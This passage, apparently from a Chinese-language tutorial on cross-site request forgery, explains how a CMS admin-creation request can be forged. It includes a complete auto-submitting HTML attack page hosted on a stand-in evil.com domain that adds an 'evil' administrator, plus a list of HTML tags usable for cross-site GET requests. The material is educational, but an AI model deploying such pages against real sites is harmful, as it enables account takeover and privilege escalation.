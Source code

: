 （2）场景二：

在一个CMS系统的后台，发出下面的POST请求可以执行添加管理员的操作：

```
POST /manage.php?act=add HTTP/1.1
Host: www.cms.com
…
Cookie: PHPSESSID=ee2cb583e0b94bad4782ea;
is_admin=234mn9guqgpi3434f9r3msd8dkekwel
(空一行)
uname=test&pword=test

```

在这里，攻击者构造了的csrf2.html页面如下：

```
<html>
    <form action="/manage.php?act=add" method="post">
        <input type="text" name="uname" value="evil" />
        <input type="password" name="pword" value="123456" />
    </form>
    <script>
        document.forms[0].submit();
    </script>
</html>

```

该页面的链接为`http://www.evil.com/csrf2.html`，攻击者诱骗已经登录后台的网站管理员访问该链接（比如通过给管理员留言等方式）会发生什么呢？当然是网站管理员根据攻击者伪造的请求添加了一个用户名为evil的管理员用户。

通过这些场景我们可以看到，CSRF攻击会根据场景的不同而危害迥异。小到诱使用户留言，大到垂直越权进行操作。这些攻击的请求都是跨域发出,并且至关重要的一点，都是在受害者的身份得到认证以后发生的。另外，我们在第一个场景中攻击时并没有使用JavaScrpit，这说明CSRF攻击并不依赖于JavaScript。

0x03 CSRF攻击方式
=====

（1）HTML CSRF攻击：

即利用HTML元素发出GET请求（带src属性的HTML标签都可以跨域发起GET请求），如：

```
<link href="…">
<img src="…">
<iframe src="…">
<meta http-equiv="refresh" content="0; url=…">
<script src="…">
<video src="…">
<audio src="…">
<a href="…">
<table background="…">
…

```
